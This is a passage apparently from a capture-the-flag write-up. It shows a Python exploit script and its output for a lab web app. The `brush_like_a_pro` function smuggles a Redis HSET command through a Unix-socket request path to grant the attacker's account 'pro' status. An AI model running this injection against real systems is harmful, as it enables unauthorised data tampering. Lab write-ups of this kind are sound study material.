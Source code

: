 ```python
    if 'successful' in res.url:
        print(f'{green("[+]")} Blog successfully created')


def brush_like_a_pro():
    """Get an oral-B toothbrush from Redis"""
    uds = 'unix:/var/run/redis/redis.sock'
    payload = f'HSET /static/{uds}:{USER}%20pro%20true%20/{USER} HTTP/1.1\r\n'\
              f'Host: {DOMAIN}\r\n'\
              '\r\n'.encode()
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((DOMAIN, 80))
    sock.send(payload)
    res = sock.recv(4096)
    sock.close()
    if '502 Bad Gateway' in res.decode():
        print(f'{green("[+]")} You can now brush like a pro 🪥')


if __name__ == "__main__":
    cookies = register()
    create_blog(cookies)
    brush_like_a_pro()

```

```bash
python3 micro.py blnkn
[+] User successfully registered
[+] Blog successfully created
[+] You can now brush like a pro 🪥
```
